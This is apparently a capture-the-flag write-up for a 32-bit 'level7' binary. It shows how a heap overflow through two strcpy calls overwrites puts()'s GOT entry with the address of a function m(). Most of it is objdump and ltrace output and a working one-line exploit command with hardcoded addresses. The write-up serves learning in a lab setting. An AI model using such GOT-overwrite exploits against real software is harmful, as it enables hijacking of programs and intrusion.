

The program alloc two struct astruct and two strings to put string's ptrs in astructs.
The first strcpy can be use to write the GOT address of puts() in puVar2->field1_0x4 and use the second strcpy to write the address of m() at the puts GOT address.

### 1. Find the offset of puts() in the GOT

```bash
$ objdump -R ./level7
...
08049928 R_386_JUMP_SLOT   puts
...
```

### 2. Find the address of m()

```bash
$ objdump -T ./level7
...
080484f4 g     F .text	0000002d              m 
...
```

### 3. Find the offset to write in puVar2->field1_0x4 from first strcpy

```bash
$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag aaaa
...                                                                                                                                      = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)                                                                                          = 0x0804a018
strcpy(0x37614136, "aaaa" <unfinished ...>
...
```



### 4. Write payload

We write the 20 random bytes, the offset of puts() in the GOT in the first argument. 
In the second argument we need the address of m().

### 5. execute with exploit

```bash
$ ./level7 $(python -c 'print "u"*20 + "\x28\x99\x04\x08"') $(echo -e '\xf4\x84\x04\x08')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
